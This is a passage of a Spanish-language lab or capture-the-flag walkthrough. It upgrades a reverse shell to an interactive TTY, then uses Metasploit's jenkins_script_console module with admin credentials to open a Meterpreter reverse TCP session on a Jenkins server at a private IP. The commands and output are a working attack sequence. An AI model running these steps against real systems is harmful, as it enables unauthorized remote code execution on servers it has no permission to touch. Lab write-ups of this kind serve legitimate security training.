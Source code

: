 Obtén una sesión interactiva:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso 4:
reset -> xterm

# Paso 5:
export TERM=xterm
export SHELL=bash
stty rows 51 columns 189
```

<br>

<h3 id="Meterpreter">Obteniendo Sesión de Meterpreter con Módulo jenkins_script_console de Metasploit Framework</h3>

Como ya tenemos una sesión activa, tan solo tenemos que seleccionar el módulo:
```bash
msf6 auxiliary(scanner/http/jenkins_login) > use exploit/multi/http/jenkins_script_console
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/jenkins_script_console) >
```

Ahora lo configuramos:
```bash
msf6 exploit(multi/http/jenkins_script_console) > set USERNAME admin
USERNAME => admin
msf6 exploit(multi/http/jenkins_script_console) > set PASSWORD 12345
PASSWORD => 12345
msf6 exploit(multi/http/jenkins_script_console) > set RHOSTS 192.168.10.150
RHOSTS => 192.168.10.150
msf6 exploit(multi/http/jenkins_script_console) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/jenkins_script_console) > set TARGETURI /
TARGETURI => /
msf6 exploit(multi/http/jenkins_script_console) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/jenkins_script_console) > set target 1
target => 1
```

Y lo ejecutamos:
```bash
msf6 exploit(multi/http/jenkins_script_console) > exploit
[*] Started reverse TCP handler on Tu_IP:4444 
[*] Checking access to the script console
[*] Logging in...
[*] Using CSRF token: 'bf5c66959eb1d8340b4c658203e7238852598b5375f2ac92319935694394d8c3' (Jenkins-Crumb style v2)
[*] 192.168.10.150:8080 - Sending Linux stager...
[*] Sending stage (3045380 bytes) to 192.168.10.150
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Meterpreter session 1 opened (Tu_IP:4444 -> 192.168.10.150:39990) at 2025-06-27 00:41:55 -0600

meterpreter > getuid
Server username: jenkins
meterpreter > sysinfo
Computer     : 192.168.10.150
```